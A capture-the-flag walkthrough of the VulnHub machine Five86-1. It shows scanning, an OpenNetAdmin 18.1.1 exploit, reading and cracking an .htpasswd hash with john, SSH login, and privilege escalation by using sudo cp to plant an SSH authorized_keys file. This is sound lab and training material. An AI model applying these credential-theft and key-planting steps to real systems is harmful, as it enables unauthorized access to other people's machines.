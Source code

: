# Five86-1
![](https://i.imgur.com/UCQyN2h.png)
## Scanning
### nmap
```
$ nmap -p- -A -T5 192.168.109.129
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-24 06:49 EDT
Nmap scan report for 192.168.109.129
Host is up (0.0013s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 69:e6:3c:bf:72:f7:a0:00:f9:d9:f4:1d:68:e2:3c:bd (RSA)
|   256 45:9e:c7:1e:9f:5b:d3:ce:fc:17:56:f2:f6:42:ab:dc (ECDSA)
|_  256 ae:0a:9e:92:64:5f:86:20:c4:11:44:e0:58:32:e5:05 (ED25519)
80/tcp    open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/ona
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
10000/tcp open  http    MiniServ 1.920 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at ht
Nmap done: 1 IP address (1 host up) scanned in 60.30 seconds

```
### dirsearch
```
$ dirsearch -u http://192.168.109.129

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30
Wordlist size: 10877

Output File: /home/jack/.dirsearch/reports/192.168.109.129/_21-07-24_06-53-29.txt

Error Log: /home/jack/.dirsearch/logs/errors-21-07-24_06-53-29.log

Target: http://192.168.109.129/

[06:53:29] Starting: 

[06:53:37] 200 -   30B  - /index.html                                     
[06:53:39] 301 -  316B  - /ona  ->  http://192.168.109.129/ona/          
[06:53:40] 401 -  462B  - /reports                        
[06:53:40] 401 -  462B  - /reports/Webalizer/            
[06:53:40] 200 -   29B  - /robots.txt                                      
[06:53:40] 403 -  280B  - /server-status                   
[06:53:40] 403 -  280B  - /server-status/
                                                                         
Task Completed   
```

## Gain Access
### Exploit By openNetAdmin
* [openNetAdmin 18.1.1](https://www.exploit-db.com/exploits/47691)
```
bash exp.sh http://192.168.109.129/ona/
```
### Enumeration
```
$ find / -type f -user www-data
/var/www/html/reports/.htaccess
/var/log/ona.log
```
```
$ cat /var/www/html/reports/.htaccess
AuthType Basic
AuthName "Restricted Area"
AuthUserFile /var/www/.htpasswd
require valid-user
```
```
$ cat /var/www/.htpasswd
douglas:$apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81
```
### Crack Password
```
$ john --wordlist=password.txt p.txt
Warning: detected hash type "md5crypt", but the string cognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loadin that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and var5 256/256 AVX2 8x3])
Press 'q' or Ctrl-C to abort, almost any other key for 
fatherrrrr       (douglas)
1g 0:00:05:17 DONE (2021-07-24 07:21) 0.003150g/s 68390/s 68390C/s fatherrrra..fatherrtet
Use the "--show" option to display all of the cracked peliably
Session completed
```
### Login By SSH
```
$ ssh douglas@192.168.109.129
douglas@192.168.109.129's password: 
Linux five86-1 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u2 (2019-11-11) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
You have mail.
Last login: Sat Jul 24 15:23:20 2021 from 192.168.109.128
douglas@five86-1:~$ 

```
## Privilege Escalation
### sudo -l
```
douglas@five86-1:~$ sudo -l
Matching Defaults entries for douglas on five86-1:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User douglas may run the following commands on five86-1:
    (jen) NOPASSWD: /bin/cp
```
### cp
* copy public key to target
```
cat id_rsa.pub > /tmp/authorized_keys
cd /tmp
chmod 777 authorized_keys
sudo -u jen /bin/cp authorized_keys /home/jen/.ssh
```
* login by ssh
```
cp id_rsa /tmp
cd /tmp
chmod 600 id_rsa
ssh -i id_rsa jen@127.0.0.1
```

## Reference
* [vulnhub - Five86-1](https://www.vulnhub.com/entry/five86-1,417/)
* [Hacking Articles - Five86:1 Vulnhub Walkthrough](https://www.hackingarticles.in/five861-vulnhub-walkthrough/)
* [blog.mzfr.me - Vulnhub - Five86 writeup](https://blog.mzfr.me/vulnhub-writeups/2020-01-01-five86)

